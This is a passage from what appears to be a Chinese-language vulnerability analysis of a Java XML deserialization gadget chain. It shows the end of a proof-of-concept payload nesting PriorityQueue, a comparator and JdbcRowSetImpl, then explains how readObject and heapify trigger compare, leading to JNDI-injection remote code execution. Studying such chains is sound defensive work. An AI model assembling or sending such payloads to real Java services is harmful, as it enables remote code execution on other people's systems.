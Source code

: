 ```xml
                        <null/>
                        <null/>
                        <null/>
                      </strMatchColumns>
                    </default>
                  </com.sun.rowset.JdbcRowSetImpl>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

### [](#分析 "分析")分析

从POC中可以看出

1.  最终的RCE触发点是JdbcRowSetImpl jndi类型注入漏洞
2.  出发点是PriorityQueue自动调用compare方法

PriorityQueue这个也是cc链中被用到的，PriorityQueue实现了Serializable，且重写了readObject。

```java
private void readObject(java.io.ObjectInputStream s)
    throws java.io.IOException, ClassNotFoundException {
    // Read in size, and any hidden stuff
    s.defaultReadObject();

    // Read in (and discard) array length
    s.readInt();

    queue = new Object[size];

    // Read in all elements.
    for (int i = 0; i < size; i++)
        queue[i] = s.readObject();

    // Elements are guaranteed to be in "proper order", but the
    // spec has never explained what that might be.
    heapify();
}
```

heapify 是个排序操作，调用了每个key的compare方法
